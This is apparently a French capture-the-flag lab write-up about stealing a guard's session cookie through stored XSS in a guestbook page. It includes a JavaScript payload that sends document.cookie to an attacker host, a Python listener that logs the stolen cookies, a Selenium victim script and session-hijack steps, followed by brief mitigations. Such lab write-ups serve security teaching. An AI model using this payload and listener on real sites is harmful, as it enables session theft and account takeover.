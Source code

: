 ```yaml
---
title: Writes-up 2
prev: "/write-ups/wu1"
---
```


# 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** lannisport.south
- **Page vulnérable :** livre_dor.php
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
xhr.send();
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if "cookie" in self.path:
            cookie = self.path.split("=")[1]
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")
        self.send_response(200)
        self.end_headers()

server_address = ('10.10.10.20', 8000)
httpd = HTTPServer(server_address, Handler)
print("[+] Serveur en écoute sur le port 8000...")
httpd.serve_forever()
```

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - MacOS)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```
✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (F12) > **Application** > **Cookies**.
- Modifier PHPSESSID avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer HttpOnly sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (htmlspecialchars()) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥